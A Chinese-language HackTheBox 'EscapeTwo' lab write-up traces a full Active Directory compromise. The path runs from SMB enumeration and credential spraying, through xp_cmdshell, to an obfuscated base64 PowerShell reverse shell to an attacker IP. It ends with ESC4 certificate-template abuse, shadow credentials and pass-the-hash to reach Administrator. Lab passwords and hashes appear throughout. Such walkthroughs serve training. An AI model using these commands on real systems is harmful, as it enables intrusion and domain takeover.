# HackTheBox EscapeTwo Writeup


HackTheBox EscapeTwo Writeup


分配IP：10.10.11.51

**已有凭证**

```
rose/KxEPkKe6R8su
```


# 外网信息探测

使用 rustscan 进行对目标全端口扫描

```
rustscan -a escapetwo.htb -r 1-65535 --ulimit 5000 | tee res
```



将靶机TCP开放端口号提取并保存，交给 nmap 指定端口进行详细扫描

```
ports=$(grep -oP '(?<=:)\d+' res | grep -vE '^19$' | paste -sd,) && echo $ports
```

**Nmap 服务版本探测**

```
nmap -Pn -A -sV -p$ports sequel.htb
```

结果显示 AD域名：sequel.htb；对方还开放了几个重要端口：389、636等 LDAP服务，445 SMB服务，1433 MSSQL服务、5985 winrm服务等



对目标 TCP 开放端口进行漏洞扫描

```
nmap -sT -p$ports --script=vuln -O -Pn sequel.htb
```



对目标常用 UDP 端口进行扫描



对目标 UDP 开放端口进行脚本、服务扫描



## SMB 共享服务测试

已知目标445端口smb服务开放，且已有凭证中提供了一串账号密码，先对此进行测试

直接尝试连接，登录成功

```
smbclient -L \\10.10.11.51 -U rose
```



有许多共享文件夹，使用 smbmap 查看文件夹权限

```
smbmap -u 'rose' -p 'KxEPkKe6R8su' -H sequel.htb
```



递归 Accounting Department 目录， 在 Accouting Department 目录中发现表格文件

```
smbmap -u 'rose' -p 'KxEPkKe6R8su' -H sequel.htb -r 'Accounting Department'A
```

 

将文件下载至本地

```
smbmap -u 'rose' -p 'KxEPkKe6R8su' -H sequel.htb -r 'Accounting Department' --download './Accounting Department/accounts.xlsx'
```




accouts.xlsx 内部有用户凭据



# 低权限用户

## nxc 服务爆破

将收集到的账号密码整理，尝试爆破 winrm 远程登录，可惜都失败了

```
nxc winrm sequel.htb -u user.txt -p pass.txt
```



想到 sa 用户是 MSSQL 数据库的默认用户，尝试跑一下 MSSQL

```
nxc mssql sequel.htb -u user.txt -p pass.txt --local-auth --continue-on-success
```



使用成功的账号密码登录 MSSQL，成功连接，获得 miscrosft-server 数据库权限



## xp_cmdshell 执行权限获取

当前数据库用户权限级高，xp_cmdshell 为关闭状态，因此配置开启



拿到 xp_cmdshell 执行权限后，初步拿到主机用户权限了



反弹 shell 一下



```
exec xp_cmdshell 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMwAyACIALAA3ADcAOAA4ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=='
```



如果遇到 MSSQL 命令行不能输入太多字符的问题，使用 MSSQL 反弹脚本工具也可以

```
┌──(mighty㉿kali)-[~/tools/Script/MSSQL/mssql-command-tools]
└─$ ./mssql-command-tools_Linux_amd64 --host 10.10.11.51 -u "sa" -p 'MSSQLP@ssw0rd!' -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMwAyACIALAA3ADcAOAA4ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="
```

## 获取 ryan 用户登录凭证

由于已知有一个数据库在运行，因此下一步是找配置文件，在根目录有清晰的数据库目录路径 `/SQL2019`。在翻阅配置文件时发现了有文本密码信息的配置文件 sql-Configuration.INI



将所有已知的用户名都写入文件中，使用 crackmapexec 尝试爆破

```
crackmapexec smb 10.10.11.51 -u user.txt  -p WqSZAF6CysDQbGb3
```



爆破结果发现该密码是配对 ryan 用户的，使用 evil-winrm 远程登录，登录成功！

```
evil-winrm -u ryan -p WqSZAF6CysDQbGb3 -i 10.10.11.51
```



拿到第一个旗帜



# 权限提升

## 域环境分析

使用 netexec 获取 bloodhound 需要的域信息压缩文件

```
nxc ldap sequel.htb -d sequel.htb -u 'ryan' -p 'WqSZAF6CysDQbGb3' --dns-server 10.10.11.51 --bloodhound -c All
```



导入至 Bloodhound



如图标显示，ryan 对 ca_svc 具有 WriteOwner 权限，拥有修改它的对象所有者的权限

## 证书模板滥用

修改 ca_svc 用户所有者为 ryan

```
bloodyAD -d sequel.htb --dc-ip 10.10.11.51 --dns 10.10.11.51 -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner ca_svc ryan
```



再将 ryan 用户对 ca_svc 用户的权限提升至完全控制

```
python3 dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'
```



与目标 NTP 服务器同步系统时间，前面 UDP 扫描对方开启了 123 NTP服务

```
sudo ntpdate sequel.htb
```

创建ca_svc用户影子证书

```
certipy-ad shadow auto -u 'ryan@sequel.htb' -p 'WqSZAF6CysDQbGb3' -account 'ca_svc' -target sequel.htb -dc-ip 10.10.11.51 -ns 10.10.11.51
```

同时获取到了用户NTLM密码哈希：3b181b914e7a9d5508ea1e20bc2b7fce



上传 Certify.exe 

```
upload Certify.exe
```



查看

```
.\Certify.exe find /domain:sequel.htb
```

关键部分，DunderMifflinAuthentication 这个模板能够被 Cert Publishers 组完全控制，且对 Domain Admins 具有注册权利。那么接下来我尝试寻找该模板漏洞，通过 certipy-ad 进行漏洞利用和模板重写来请求高权限证书



```
certipy-ad find -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -vulnerable -stdout
```

通过指定的用户名和哈希值在 Active Directory 中枚举与证书相关的漏洞信息。结果的确显示 DunderMifflinAuthentication 模板危险且具有 ESC4 漏洞



重写该模板信息，使其符合攻击要求

certipy-ad 和 ADCS 通过 自动更新模板权限，使得原本只能由 高权限用户（如 Domain Admins 或 Enterprise Admins） 使用的模板，可以被 低权限用户（如 ca_svc） 申请证书

```
certipy-ad template -u ca_svc@sequel.htb -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -k -template 'DunderMifflinAuthentication' -target DC01.sequel.htb -ns 10.10.11.51 -debug
```



请求一份Administrator用户符合模板要求的证书，此处需要在更新模板后第一时间执行才能得到

```
certipy-ad req -u ca_svc@sequel.htb -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -ca sequel-DC01-CA -template 'DunderMifflinAuthentication' -upn Administrator@sequel.htb -target DC01.sequel.htb -ns 10.10.11.51 -dns 10.10.11.51 -dc-ip 10.10.11.51
```



借助 pfx 证书通过身份认证

```
certipy-ad auth -pfx administrator_10.pfx
```



## PTH 攻击

PTH，通过 NTLM 哈希实现对目标系统的身份验证

通过上述哈希凭证登录靶机

```
impacket-psexec sequel.htb/administrator@10.10.11.51 -hashes 'aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff'
```



最后在 C:\Users\Administrator\Destop 目录中找到第二个旗帜




---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/hackthebox-escapetwo/  

